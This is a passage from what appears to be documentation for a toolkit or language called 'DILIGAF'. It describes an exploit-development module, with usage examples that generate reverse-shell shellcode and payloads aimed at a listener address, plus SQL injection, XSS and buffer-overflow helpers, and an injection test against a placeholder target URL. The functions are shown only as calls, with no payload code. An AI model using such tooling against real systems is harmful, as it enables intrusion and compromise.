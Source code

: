 ```diligaf
print("Password correct:", is_correct)
```

### **4. Exploit Development (`libs/exploit/diligaf-exploit.diligaf`)**
Payload generation and exploit development tools.

**Features:**
- Shellcode generation (x86/x64, Linux/Windows)
- Payload generation (Python, PowerShell, PHP, JavaScript)
- Buffer overflow exploits and pattern generation
- SQL injection payloads (UNION, Boolean, Time-based, Error-based)
- XSS payloads (Reflected, Stored, DOM-based)
- Command injection payloads
- Payload obfuscation and encoding
- Exploit automation and testing

**Usage:**
```diligaf
stackit exploit

# Generate shellcode
shellcode = generate_shellcode("x86", "linux", "reverse_shell")
print("Shellcode:", shellcode.hex())

# Generate Python payload
python_payload = generate_python_payload("reverse_shell", "192.168.1.100", 4444)
print("Python payload:", python_payload)

# SQL injection
union_payload = generate_union_payload(3, "users", "1=1")
print("UNION payload:", union_payload)

# XSS payload
xss_payload = generate_reflected_xss("alert")
print("XSS payload:", xss_payload)

# Buffer overflow
pattern = generate_pattern(1000)
offset = find_offset(pattern, "0x41414141")
print("Offset:", offset)

# Test exploits
result = test_sql_injection("http://target.com/login", "username", union_payload)
print("SQL injection result:", result)
```

## 📦 **Package Manager**

### **DILIGAF Package Manager (`diligaf-pm.diligaf`)**
Install, manage, and update DILIGAF libraries and packages.
